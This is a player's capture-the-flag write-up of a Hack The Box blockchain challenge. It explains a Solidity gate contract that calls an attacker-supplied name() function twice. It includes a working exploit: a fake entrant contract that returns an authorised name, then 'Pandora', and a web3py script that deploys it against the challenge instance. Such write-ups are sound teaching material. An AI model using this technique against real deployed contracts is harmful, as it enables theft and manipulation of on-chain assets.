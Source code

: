 ```yaml
---
title: "Write-up of The Art of Deception (Blockchain) CTF HTB Apocalypse 2023"
summary: "Introduction to Web3 security: an explanation of the logic put behind flagging a Web3 challenge, written in web3py and solidity."
date: 2023-03-28T15:08:45-02:00
lastUpdate: 2023-03-28T15:08:45-02:00
tags: ["introduction", "web3", "solidity", "write-up", "Supwn"]
author: Turtyo
draft: false
---
```


When we first start the challenge, we have two URLs as it was common on the blockchain part of this CTF:
```
68.183.37.122:31651
68.183.37.122:32646 
```

The first one is an **RPC** URL, we will use it to connect to the blockchain.   
The second is a **TCP** port, we can connect to it using `nc 68.183.37.122:32646`.

This allows us to retrieve connection information that we will need for the challenge:
```
1 - Connection information
2 - Restart Instance
3 - Get flag
action? 1

Private key     :  0xa22d64ea53f80c513cf9223d4d968d96637819568b2a81f33d070e4818a1c382
Address         :  0x23b6462992d4131BE158f20B6aEEab2Fd6887b3B
Target contract :  0xDa2FE820ae9135E877ac01aA657743B7c75Fe4bb
Setup contract  :  0x1ba407613f8d2D40b70b70d312f05F6f2628e58F
```

Of course the private key is a false one, you won't win the big prize today x)   
And the `Get flag` tells us the challenge isn't solved yet.

We also have some files that we downloaded at the start of the challenge, let's check what's inside of them:   
`Setup.sol`
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.18;

import {HighSecurityGate} from "./FortifiedPerimeter.sol";

contract Setup {
    HighSecurityGate public immutable TARGET;

    constructor() {
        TARGET = new HighSecurityGate();
    }

    function isSolved() public view returns (bool) {
        return TARGET.strcmp(TARGET.lastEntrant(), "Pandora");
    }
}
```

We can for now see with the function `isSolved` that we need to verify `TARGET.lastEntrant() == "Pandora"`

`FortifiedPerimeter.sol`
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.18;


interface Entrant {
    function name() external returns (string memory);
}

contract HighSecurityGate {
    
    string[] private authorized = ["Orion", "Nova", "Eclipse"];
    string public lastEntrant;

    function enter() external {
        Entrant _entrant = Entrant(msg.sender);

        require(_isAuthorized(_entrant.name()), "Intruder detected");
        lastEntrant = _entrant.name();
    }

    function _isAuthorized(string memory _user) private view returns (bool){
        for (uint i; i < authorized.length; i++){
            if (strcmp(_user, authorized[i])){
                return true;
            }
        }
        return false;
    }

    function strcmp(string memory _str1, string memory _str2) public pure returns (bool){
        return keccak256(abi.encodePacked(_str1)) == keccak256(abi.encodePacked(_str2)); 
    }
}
```

Here we see multiple interesting things. First, we understand what was this "lastEntrant" thing, we have a list `authorized = ["Orion", "Nova", "Eclipse"]`. To modify the variable `lastEntrant` we need to use the function `enter` which will change the value of `lastEntrant` to match with the name of the person using the function (the entrant), after checking that the name of this entrant is indeed in `authorized`.

This `name` function is defined as an `external` function in the `Entrant` interface. In Solidity, the `external` keyword means that the function is called from outside the contract. To read more about function types, you can check the doc [here](https://docs.soliditylang.org/en/v0.8.19/types.html#function-types). Here, it is left to the person interacting with the `enter` function to implement it. In itself, this is not a vulnerability.

But the vulnerability comes in the following two lines:
```solidity
require(_isAuthorized(_entrant.name()), "Intruder detected");
lastEntrant = _entrant.name();
```

The interesting thing to note here is that the `name` function is called twice, first to check that it is an authorized name, and a second time to change the value of `lastEntrant`. And **we** are the ones that implement the `name` function ! The idea of how to flag the challenge is the following:  

***"What if we gave a name in the authorized list the first time the function is called and the name Pandora the second time ?"***

I started by writing a solidity file for this (`fake_entrant.sol`)
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.18;


interface Entrant {
    function name() external returns (string memory);
}

interface HighSecurityGate {
    function enter() external;
}

contract FakeEntrant is Entrant {
    bool private _hasBeenCalled = false;
    HighSecurityGate _gate;
    
    constructor(address gateAddress){
        _gate = HighSecurityGate(gateAddress);
    }

    function callEnter() public {
        _gate.enter();
    }

    function name() external override returns (string memory) {
        if (!_hasBeenCalled) {
            _hasBeenCalled = true;
            return "Orion";
        } else {
            return "Pandora";
        }
    }

}
```
The `name` function does exactly what was described above. The `callEnter` function is here to be able to ask for the `enter` function on behalf of this contract.
We can't just call the `enter` function ourselves, because we don't have the `name` function implemented.   
So instead of doing this: `us -> enter`   
We do: &emsp; &emsp; &emsp; &emsp; &emsp; &emsp; `us -> callEnter -> fake_entrant.sol -> enter`   
The `fake_entrant.sol` acts as a middle man for us.   

And here is the `web3py` code to make all of this work (`sneaking_in.py`):
```python
from web3 import Web3
from abi import *
import solcx

url = 'http://68.183.37.122:31651'
# nc 68.183.37.122 32646 

private_key     =  "0xa22d64ea53f80c513cf9223d4d968d96637819568b2a81f33d070e4818a1c382" # this is a false one btw
address         =  "0x23b6462992d4131BE158f20B6aEEab2Fd6887b3B"
target_contract =  "0xDa2FE820ae9135E877ac01aA657743B7c75Fe4bb"
setup_contract  =  "0x1ba407613f8d2D40b70b70d312f05F6f2628e58F"

w3 = Web3(Web3.HTTPProvider(url))
print('[+] Connection successful' if w3.is_connected() else '[-] Connection failed')

contract_fortified_perimeter = w3.eth.contract(target_contract, abi = abi_fortified_perimeter)
contract_setup = w3.eth.contract(setup_contract, abi = abi_setup)

# Compile the contract
comp = solcx.compile_files("./fake_entrant.sol", output_values=["abi", "bin"])['fake_entrant.sol:FakeEntrant']

# Deploy the contract
contract_fake_entrant = w3.eth.contract(abi=comp['abi'], bytecode=comp['bin'])
tx_hash = contract_fake_entrant.constructor(target_contract).transact()
tx_receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
contract_fake_entrant_address = tx_receipt.contractAddress
new_contract_fake_entrant = w3.eth.contract(abi=comp['abi'],address=tx_receipt.contractAddress)

# print(f'Receipt : {tx_receipt}')
print(f'Contract address : {contract_fake_entrant_address}')

print("Calling the enter function")
new_contract_fake_entrant.functions.callEnter().transact()

print(f'lastEntrant = {contract_fortified_perimeter.functions.lastEntrant().call()}')
print(f'isSolved = {contract_setup.functions.isSolved().call()}')

# goal is to make last entrant as "Pandora"
```
After that we just need to `nc 68.183.37.122:32646` and get the flag !

Few things to note here:
- I used [__Remix__](https://remix.ethereum.org/) (an online tool) to compile the `FortifiedPerimeter.sol` and `Setup.sol` files in order to get their ABI (that's basically a list of the functions and attributes of the contracts in the file)
- [solcx](https://pypi.org/project/py-solc-x/) is a python interface to use the [solc compiler](https://docs.soliditylang.org/en/latest/installing-solidity.html#building-from-source)
- I am still unsure as to why I had to recreate the contract using the address of the contract. I thought it would already be in the blockchain when I used the constructor, but it seems that the local instance is separated from the online instance of the contract.

Also if you just started working with web3 (as I did before this CTF), the difference between `call` and `transact` functions is that `call` is a read only function (meaning you look at the state of what you are calling) whereas `transact` is used to make a change.

I hope this WU was clear, thank you for reading through it.

Turtyo for the Supwn team
